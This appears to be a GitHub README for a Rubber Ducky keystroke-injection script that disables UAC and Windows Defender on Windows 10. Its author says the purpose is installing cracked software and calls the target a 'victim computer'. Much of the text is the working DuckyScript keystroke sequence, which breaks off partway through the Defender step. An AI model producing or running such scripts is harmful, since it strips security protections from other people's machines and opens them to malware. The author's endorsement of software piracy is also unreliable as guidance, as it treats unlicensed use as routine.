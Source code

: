 # Rubber-Ducky_Disable_W10-Defender_Technician-Edition
A quickly script for Rubber Ducky to disable w10 defender on large scale

![Alt text](https://github.com/JonnyBanana/Rubber-Ducky_Disable_W10-Defender_Technician-Edition/blob/master/img/BATH213-walking-dead-rubber-duck%20(1).JPG "Rubber-Ducky_Disable_W10-Defender_Technician-Edition-by-Jonny-Banana")

In my activities as a technician I have to format many computers during the month, and as many refuse to buy the license </br>
i have to use a lot of crack (although I do not recommend every time, but the money they pull at the time ...).

Since the windows 10 defenses are slightly improved compared to the previous ones </BR>(even if it is still punctured like a colander ...),</br> I had the need to write a quick rubber ducky script that would disable Windows Defender on windows 10 platforms (the more installed system in our time).

I have also added an additional script that reports UAC and windows defender to the recommended settings.
The Scripts are two: Killer and Healer, the first disables and the second of course rehabilitates everything.

<h2>Killer</h2>

As you can see in the first script I set first the initial delay to 2000 ms, but I suggest to increase up to 5000/10000 ms according to the victimized computer, the more powerful the computer is and the less it will read the DUCKY drivers when it comes attached to the victim computer for the first time.

After disabling the UAC control, note that I have used only commands that disable the various functions from interface GUAR, and without closing the final window this to allow you to see if the script worked even if you were not careful ....

Once disabled The UAC was enough to type the string "virus pro" in the windows bar, I chose "virus pro" as it can work both with my native language (protezione virus) and in English (virus protection) thus making it multilingual script, also because in Italy it is so much whether these things affect 100 people ....

DELAY 2000</BR>
REM  first disable UAC</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING uac </BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
LEFT</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
REM it's time to disable the fuckin' defender....</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING virus pro</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>